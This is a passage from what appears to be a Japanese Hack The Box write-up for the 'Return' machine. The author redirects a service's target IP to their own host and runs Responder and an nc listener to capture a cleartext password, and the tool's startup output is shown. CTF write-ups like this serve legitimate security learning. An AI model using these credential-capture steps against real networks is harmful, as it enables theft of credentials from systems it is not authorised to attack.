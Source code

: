 ![](https://i.imgur.com/A9U7Cll.png)


## Responder
このIPを自分のホストのIPに変更して、SSRFとかできないかなと思ったけれども、`nc -lvnp` を建てても、接続されない。
念の為、Responderを立てて、自分のホストを指しして、リクエスト飛ばす。

![](https://i.imgur.com/KbSn5ut.png)

すると、クリアテキストパスワードが取得できる
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Return]
└─$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.6.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
```